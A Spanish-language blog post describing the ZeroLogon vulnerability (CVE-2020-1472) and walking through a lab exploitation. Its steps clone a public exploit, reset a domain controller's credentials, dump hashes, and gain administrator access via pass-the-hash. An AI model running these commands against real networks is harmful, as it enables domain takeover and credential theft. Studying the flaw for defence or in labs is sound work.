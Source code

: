 ```yaml
---
layout: single
title: Explotación de CVE-2020-1472 - Vulnerabilidades
excerpt: "la vulnerabilidad crítica de elevación de privilegios 10/10 de Windows ZeroLogon Netlogon permite a los actores de amenazas obtener rápidamente acceso a las credenciales de administrador de dominio en un controlador de dominio. A partir de ahí, pueden recopilar datos confidenciales o implementar malware, como ransomware."
date: 2023-08-25
classes: wide
header:
  teaser: /assets/images/vulnerabilidades/cve-2020-1472/cve-2020-1472.png
  teaser_home_page: true
  icon: /assets/images/zerologon.webp
categories:
  - Vulnerabilidades
 
tags:  
  - cve-2020-1472
  - zerologon
  - rce
  - censys
  
---
```


![](/assets/images/vulnerabilidades/cve-2020-1472/cve-2020-1472.png)

## Descripción

En resumen, la CVE-2020-1472 es el resultado de un error en la estrategia de autentificación criptográfica del protocolo remoto de Netlogon. Este protocolo autentifica a los usuarios y los equipos en redes basadas en dominios y también se utiliza para actualizar las contraseñas del ordenador en remoto. Mediante la vulnerabilidad, un atacante puede hacerse pasar por un ordenador cliente y sustituir la contraseña de un controlador de dominio (un servidor que controla una red al completo y ejecuta los servicios del Directorio Activo), que le permite al atacante hacerse con los derechos de administrador del dominio.

•	Tipo: Gestión de privilegios incorrecta

•	Gravedad: Alta

•	Fecha publicación:17/08/2020 Última modificación: 23/11/2020

## ¿Qué es Netlogon?

Netlogon es un proceso de Windows Server que autentica a los usuarios y otros servicios dentro de un dominio. Dado que es un servicio y no una aplicación, Netlogon se ejecuta continuamente en segundo plano, a menos que se detenga manualmente o por un error en tiempo de ejecución. Netlogon se puede detener o reiniciar desde el terminal de línea de comandos.

## ¿Quién es vulnerable?

El CVE-2020-1472 supone un riesgo para las empresas cuyas redes están basadas en controladores de dominio que se ejecuten con Windows. En concreto, los ciberdelincuentes pueden secuestrar un controlador de dominio basado en cualquier versión de Windows Server 2019 o de Windows Server 2016, así como cualquier edición de Windows Server versión 1909, Windows Server versión 1903, Windows Server versión 1809 (ediciones Datacenter y Standard), Windows Server 2012 R2, Windows Server 2012 o Windows Server 2008 R2 Service Pack 1. Para atacar, primero necesitarían penetrar en la red corporativa.

## Productos Afectados:

•	Windows Server 2008 R2 x64 Service Pack 1 

•	Windows Server 2012

•	Windows Server 2012 R2 

•	Windows Server 2016

•	Windows Server 2019

•	Windows Server 1903 (Server Core), 1909 (Server Core), 2004 (Server Core)

•	Samba 4.0 o superior, sólo cuando es usado como Controlador de Dominio Active Directory o NT4 

## Explotación:

Para esta demostración usaremos como maquina atacante Kali Linux conectado a la red y el equipo víctima es un Windows server 2008 R2.

•	Ejecutamos en la terminal el comando python3 -m pip install virtualenv

![](/assets/images/vulnerabilidades/cve-2020-1472/cve-2020-14722.png)

Luego creamos una instancia con el comando.

•	python3 -m virtualenv practica1

![](/assets/images/vulnerabilidades/cve-2020-1472/cve-2020-14723.png)

Invocamos la instancia creada source practica1/bin/actívate.

![](/assets/images/vulnerabilidades/cve-2020-1472/cve-2020-14724.png)

Instalamos el paquete desde github con el comando.

•	pip install git+https://github.com/SecureAuthCorp/impacket

Luego descargamos el directorio con el exploit desde github.

•	git clone https://github.com/dirkjanm/CVE-2020-1472

![](/assets/images/vulnerabilidades/cve-2020-1472/cve-2020-14725.png)

Ingresamos al directorio descargado.

•	cd CVE-2020-1472

Ejecutamos desde el directorio el comando.

•	python cve-2020-1472-exploit.py NOMBRE EQUIPO VICTIMA IP VICTIMA

![](/assets/images/vulnerabilidades/cve-2020-1472/cve-2020-14726.png)

Ejecutamos el comando del paquete.

•	impacket-secretsdump NOMBRE DOMINIO VICTIMA/'NOMBRE EQUIPO VICTIMA$'@IP VICTIMA -no—pass

![](/assets/images/vulnerabilidades/cve-2020-1472/cve-2020-14727.png)

Finalmente ejecutamos el siguiente comando para obtener control del controlador de dominio como administrador.

•	impacket-wmiexec -hashes HASH ENCONTRADO USUARIO ENCONTRADO@IP VICTIMA

![](/assets/images/vulnerabilidades/cve-2020-1472/cve-2020-14728.png)


## Referencias:

•	https://github.com/SecureAuthCorp/impacket

•	https://github.com/dirkjanm/CVE-2020-1472

•	https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-1472


